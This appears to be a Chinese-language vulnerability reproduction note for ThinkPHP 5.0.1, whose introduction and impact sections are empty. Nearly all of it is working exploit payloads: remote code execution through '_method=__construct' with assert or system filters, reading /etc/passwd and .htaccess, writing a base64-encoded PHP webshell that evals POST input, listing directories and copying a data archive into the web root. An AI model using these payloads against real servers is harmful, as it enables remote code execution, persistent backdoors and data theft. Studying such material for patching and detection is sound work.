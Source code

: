 ```yaml
---
title: "Thinkphp 5.0.1"
id: zhfly3147
---
```


# Thinkphp 5.0.1

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、判断是否存在漏洞

#### poc1

```
http://wwww.0-sec.org/public `s=phpinfo()&_method=__construct&filter=assert

_method=__construct&method=get&filter[]=call_user_func&server[]=phpinfo&get[]=phpinfo

_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo

_method=__construct&method=get&filter[]=call_user_func&get[0]=phpinfo&get[1]=1` 
```

#### poc2

```
http://wwww.0-sec.org/?s=index/index/index `s=ipconfig&_mehthod=__construct$method=&filter[]=system` 
```

### 2、深入利用

使用post提交

#### 1、使用assert函数

```
s=phpinfo()&_method=__construct&filter=assert 
```

#### 2、include函数，可以根据此函数查看一些文件及其配置

```
s=include("/etc/passwd")&_method=__construct&filter=assert 
```

#### 3、file_put_contents函数，可以直接写入文件

```
s=file_put_contents('/data/wwwroot/www.0-sec.org/application/index/test.php',base64_decode('PD9waHAgJHBhc3M9JF9QT1NUWydhYWFhJ107ZXZhbCgkcGFzcyk7Pz4'))&_method=__construct&filter=assert 
```

#### 4、读取文件

```
_method=__construct&method=get&filter[]=think\__include_file&server[]=phpinfo&get[]=../application/.htaccess 
```

```
s=include("../application/.htaccess")&_method=__construct&filter=assert `//ps:如果不加… 请加上完整路径` 
```

#### 5、var_dump函数，可以查看该路径下的文件，文件夹

```
s=var_dump(scandir('../application/'))&_method=__construct&filter=assert 
```

#### 6、复制文件

```
s=copy("/data/wwwroot/data.tar", "/data/wwwroot/www.0-sec.org/public/data.tar")&_method=__construct&filter=assert 
```